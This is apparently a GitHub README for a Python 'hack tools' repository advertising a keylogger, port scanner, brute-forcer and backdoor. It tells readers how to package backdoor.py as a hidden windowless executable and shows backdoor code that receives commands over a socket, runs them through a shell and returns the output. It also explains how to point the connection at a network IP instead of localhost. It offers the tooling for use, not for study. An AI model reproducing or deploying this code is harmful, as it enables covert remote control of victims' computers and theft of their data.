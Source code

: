 # HackToolsV2
Python Keylogger PortScanner BruteForce and basic hack tools.(new ones will come soon)
![Ekran Alıntıs2ı](https://user-images.githubusercontent.com/69467096/112681821-46388780-8e80-11eb-89ab-7d1fc21476ea.PNG)
![Ekran Alıntısı](https://user-images.githubusercontent.com/69467096/112681920-66684680-8e80-11eb-8e59-552d65c3f1fb.PNG)

[![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/)

## To make exe file write this code block to terminal
```python
pyinstaller backdoor.py --onefile --noconsole
```
### Additional codes:
#command = reliable_recv()
#message = 'Hello world'
#s.send(message.encode())

#s.recv(1024)
#execute = subprocess.Popen(command, shell = True, stdout=subprocess.PIPE,stderr=subprocess.PIPE,stdin=subprocess.PIPE)

#result = execute.stdout.read() + execute.stderr.read()
#reliable_send(result)
```python
command = reliable_recv()
message = 'Hello world'
s.send(message.encode())

s.recv(1024)
execute = subprocess.Popen(command, shell = True, stdout=subprocess.PIPE,stderr=subprocess.PIPE,stdin=subprocess.PIPE)

result = execute.stdout.read() + execute.stderr.read()
reliable_send(result)
```
![Ekran Alıntısı](https://user-images.githubusercontent.com/69467096/112891291-a4fc3c00-90e0-11eb-81bd-604dd01c9b0d.PNG)
### due to some complications in server.py and backdoor.py You must replace the code blocks that write 127.0.0.1 with the local IP address.
# LIKE THIS

```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sck.bind(('127.0.0.1',5555))

s.connect(('127.0.0.1',5555))
```
# TO THIS
```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sck.bind(('192.1.2.12',5555))

s.connect(('192.1.2.12',5555))
```
